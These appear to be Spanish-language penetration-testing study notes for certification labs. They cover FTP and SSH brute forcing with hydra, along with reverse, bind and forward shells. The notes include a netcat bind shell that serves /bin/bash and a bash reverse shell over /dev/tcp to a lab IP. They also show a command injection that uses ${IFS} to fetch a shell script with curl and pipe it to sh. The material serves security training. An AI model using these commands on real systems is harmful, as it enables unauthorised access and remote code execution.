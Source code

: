 ## Explotación
### Indice
- [FTP (Fuerza bruta)](#exftp)
- [SSH (Fuerza bruta)](#exssh)
- [Reverse Shell](#shell)
- [Experiencias con Reverse Shell](#exshell)

 <a name="exftp"></a>
### FTP
 
Fuerza bruta: ``` hydra -l user -P passwords.txt ftp://172.17.0.2```

 * Con -l le especificamos un usuario, con -L le especificamos un diccionario de usuarios. igual para la contraseña
 
Si aparece la version, se podría mirar algun exploit.
 
<a name="exssh"></a>
 ### SSH
 Fuerza bruta: ``` hydra -l user -P passwords.txt ssh://172.17.0.2 -s 2222```

 ## Reverse, Bind, Forward Shells
 
 Suponiendo que conseguimos realizar ejecución remota de comandos, podriamos tratar de enviarnos una shell interactiva desde la cual movernos por el sistema atacado. Tenemos 3 tipos:
 <a name="shell"></a>
 ### Reverse shell
 La víctima nos envía una shell interactiva a nosotros, que estremos a la escucha con netcat. En [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) tenemos diferentes maneras de ejecutar la shell remota según los recursos que dispongamos. Solamente deberíamos estar a la escucha con netcat de la siguiente manera:
 ```
 nc -nlvp 443
 ```
 ### Bind shell
 La conexión es igual que la anterior solo que de manera inversa. en este caso el atacante es el que está a la escucha pero ofreciendo una bash, para ello:
 ```
 Victima: nc -nlvp 443 -e /bin/bash
 Atacante: nc <ip> <puerto>
 ```
 
 ### Forward Shell
 Es una manera de evitar las restricciones que pudieramos tener a la hora de establecer una conexión, por ejemplo si a través de fiewall nos capasen los puertos. La consola no es 100% interactiva pero se puede simular.
 
 Para ello necesitamos poder subir archivos, y subiriamos el php reverse shell de pentestmonkey. y nos descargamos el siguiente ejecutable: [TTYoverHTTP](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py) 
 la manera de proceder es la siguiente:
 ```
 1. subir el fichero cmd.php (o como le queramos llamar)
 2. Editar si fuera necesario el ttyoverhttp, con la ruta y el nombre del fichero para decirle donde se ubica el php reverse shell
 3. Ejecutar tty_over_http.py
 ```


 <a name="inyeccion_comandos"></a>
 <a name="exshell"></a>
### Experiencias con Reverse Shell  

#### Si no deja introducir espacios en blanco, lo mejor es: 
1º Crear un fichero .sh que contenga el código de la reverse shell  
```
bash -c 'bash -i >& /dev/tcp/10.10.14.54/443 0>&1'
```
2º Montar un servidor web para ofrecer el fichero  
```
python3 -m http.server 80
```
3º En la parte donde podamos inyectar el comando:
```
curl${IFS}<IP>/shell.sh|sh
o
curl${IFS}<IP>/shell.sh|bash

${IFS} sería el espacio en bash
```
<a href="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/tree/main"> Menú Principal</a>

